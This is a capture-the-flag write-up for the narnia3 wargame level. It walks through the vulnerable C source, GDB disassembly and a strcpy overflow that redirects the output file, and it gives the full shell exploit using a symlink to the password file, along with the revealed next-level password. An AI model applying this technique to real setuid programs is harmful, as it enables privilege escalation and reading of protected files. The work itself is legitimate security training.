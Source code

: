 # narnia3
slopey112 - 3/6/19

Let's open up the source code to get an idea of how this works.
```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }

    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
}
```
Looking it over, we can see that the binary is relatively simple; We open a file, and then we copy that file into `/dev/null`.

The vulnerability here is clearly visible; once again, just like `narnia2`, there is no bounds checking for the argument we are passing. Therefore, the vulnerability is a buffer overflow again. Can we overflow into `/dev/null`? Turns out we can. Let's open up GDB and try it out.
```assembly
0x0804850b <+0>:	push   ebp
0x0804850c <+1>:	mov    ebp,esp
0x0804850e <+3>:	sub    esp,0x58
0x08048511 <+6>:	mov    DWORD PTR [ebp-0x18],0x7665642f
0x08048518 <+13>:	mov    DWORD PTR [ebp-0x14],0x6c756e2f
0x0804851f <+20>:	mov    DWORD PTR [ebp-0x10],0x6c
0x08048526 <+27>:	mov    DWORD PTR [ebp-0xc],0x0
0x0804852d <+34>:	cmp    DWORD PTR [ebp+0x8],0x2
0x08048531 <+38>:	je     0x804854d <main+66>
0x08048533 <+40>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048536 <+43>:	mov    eax,DWORD PTR [eax]
0x08048538 <+45>:	push   eax
0x08048539 <+46>:	push   0x80486a0
0x0804853e <+51>:	call   0x8048390 <printf@plt>
0x08048543 <+56>:	add    esp,0x8
0x08048546 <+59>:	push   0xffffffff
0x08048548 <+61>:	call   0x80483b0 <exit@plt>
0x0804854d <+66>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048550 <+69>:	add    eax,0x4
0x08048553 <+72>:	mov    eax,DWORD PTR [eax]
0x08048555 <+74>:	push   eax
0x08048556 <+75>:	lea    eax,[ebp-0x38]
0x08048559 <+78>:	push   eax
0x0804855a <+79>:	call   0x80483a0 <strcpy@plt>
0x0804855f <+84>:	add    esp,0x8
0x08048562 <+87>:	push   0x2
0x08048564 <+89>:	lea    eax,[ebp-0x18]
0x08048567 <+92>:	push   eax
0x08048568 <+93>:	call   0x80483c0 <open@plt>
...
```
Here's the break point up to the first `open` function. Take a look at the source code again. The real vulnerability lies in the `call` function; we are copying the first command line argument into a 32 byte buffer, and then trying to open that, and `/dev/null`. So we'll see what happens when we plug in something that is greater than 32 bytes.

Let's set a break point right at the last line in this snippet of code, and we'll see where we overflow into.
```
(gdb) b *0x08048568
Breakpoint 1 at 0x8048568
(gdb) r $(python -c "print '/tmp/'+'A'*27+'BBBB'")
Starting program: /narnia/narnia3 $(python -c "print '/tmp/'+'A'*27+'BBBB'")

Breakpoint 1, 0x08048568 in main ()
(gdb) x/s $eax
0xffffd680:	"BBBB"
```
When we take a look at the argument pushed into `open`, we can see that it is overflown; however, here's the key insight: we overflown the *old file*, not the new one; the old file was suppose to be `/dev/null`, but we were able to redirect it to a random file.

With this realization, the solution is understandable; we make a symbolically linked file to the flag, and we'll push that into the binary.
```
narnia3@narnia:~$ mkdir -p $(python -c "print '/tmp/'+'A'*27+'/tmp'")
narnia3@narnia:~$ cd $(python -c "print '/tmp/'+'A'*27+'/tmp'")
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$ ln -s /etc/narnia_pass/narnia4 BBBB
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$ touch /tmp/BBBB
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$ chmod 777 /tmp/BBBB
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$ /narnia/narnia3 "$(pwd)/BBBB"
copied contents of /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/BBBB to a safer place... (/tmp/BBBB)
narnia3@narnia:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp$ cat /tmp/BBBB
thaenohtai
```
